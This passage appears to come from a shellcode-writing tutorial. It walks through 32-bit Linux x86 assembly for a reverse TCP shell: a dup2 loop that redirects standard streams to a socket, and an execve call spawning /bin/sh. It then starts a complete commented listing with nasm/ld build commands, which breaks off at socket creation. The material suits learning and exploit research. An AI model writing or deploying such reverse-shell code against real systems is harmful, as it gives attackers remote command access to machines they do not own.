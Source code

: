 So, the `sys_dup2` syscall is executed three times in an ecx-based loop:       
```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup
```

`jns` basically jumps to "dup" as long as the signed flag (`SF`) is not set.   

Let's go to debug with `gdb` and check `ecx` value:   
```bash
gdb -q ./rev
```

![gdb ecx -1](./images/14/2021-10-16_13-34.png){width="80%"}       

As you can see, after third `dec ecx` it contains `0xffffffff` which is equal -1 and the `SF` got set and the shellcode flow continues.     

In result, all three output are redirected :)       

### launch the shell with execve

This part of code are similar to the example from the first part, but again with a small change:
```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, 
; char *const argv[],char *const envp[]);
mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; terminating NULL
push 0x68732f2f   ; "hs//"
push 0x6e69622f   ; "nib/"
mov  ebx, esp    ; save pointer to filename
int  0x80        ; syscall: exec sys_execve
```

As you can see, we need to push the terminating `NULL` for the `/bin//sh` string seperately onto the stack, because there isn't already one to use.    

So we are done.       

### final complete shellcode

My complete, commented shellcode:
```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66        ; sys_socketcall 102
  pop  eax         ; zero out eax
  push 0x1         ; sys_socket 0x1
  pop  ebx         ; zero out ebx
```